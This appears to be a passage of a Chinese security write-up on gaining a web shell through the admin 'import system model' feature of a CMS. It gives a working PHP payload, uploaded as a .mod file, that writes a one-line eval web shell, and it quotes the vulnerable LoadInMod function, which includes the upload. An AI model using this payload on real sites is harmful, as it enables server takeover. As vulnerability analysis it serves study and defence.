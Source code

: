 ### 后台getshell(二)
在系统、数据表与系统模型、管理数据表、导入系统模型中，上传我们的1.php.mod
![](https://img-blog.csdnimg.cn/20210705104009908.png)
内容为：(注意需要对$进行转义)
```php
<?php file_put_contents("../../caidao.php","<?php @eval(\$_POST[cmd]);?>");?>
```
![](https://img-blog.csdnimg.cn/20210705104154610.png)
显示导入模型成功，那么访问我们的一句话木马路径即可getshell
![](https://img-blog.csdnimg.cn/2021070510424133.png)
在`e/admin/ecmsmod.php`存在导入模型，然后跟进LoadInMod函数
![](https://img-blog.csdnimg.cn/20210705113227791.png)
```php
//导入系统模型
function LoadInMod($add,$file,$file_name,$file_type,$file_size,$userid,$username){
	global $empire,$dbtbpre,$ecms_config;
	//验证权限
	CheckLevel($userid,$username,$classid,"table");
	$tbname=RepPostVar(trim($add['tbname']));
	if(!$file_name||!$file_size||!$tbname)
	{
		printerror("EmptyLoadInMod","");
	}
	//扩展名
	$filetype=GetFiletype($file_name);
	if($filetype!=".mod")
	{
		printerror("LoadInModMustmod","");
	}
	//表名是否已存在
	$num=$empire->gettotal("select count(*) as total from {$dbtbpre}enewstable where tbname='$tbname' limit 1");
	if($num)
	{
		printerror("HaveLoadInTb","");
	}
	//上传文件
	$path=ECMS_PATH."e/data/tmp/mod/uploadm".time().make_password(10).".php";
	$cp=@move_uploaded_file($file,$path);
	if(!$cp)
	{
		printerror("EmptyLoadInMod","");
	}
	DoChmodFile($path);
	@include($path);
	UpdateTbDefMod($tid,$tbname,$mid);
	//公共变量
	TogSaveTxtF(1);
	GetConfig(1);//更新缓存
	//生成模型表单文件
	$modr=$empire->fetch1("select mtemp,qmtemp,cj from {$dbtbpre}enewsmod where mid='$mid'");
	ChangeMForm($mid,$tid,$modr[mtemp]);//更新表单
	ChangeQmForm($mid,$tid,$modr[qmtemp]);//更新前台表单
	ChangeMCj($mid,$tid,$modr[cj]);//采集表单
	//删除文件
	DelFiletext($path);
	//操作日志
	insert_dolog("tid=$tid&tb=$tbname<br>mid=$mid");
	printerror("LoadInModSuccess","db/ListTable.php".hReturnEcmsHashStrHref2(1));
}
```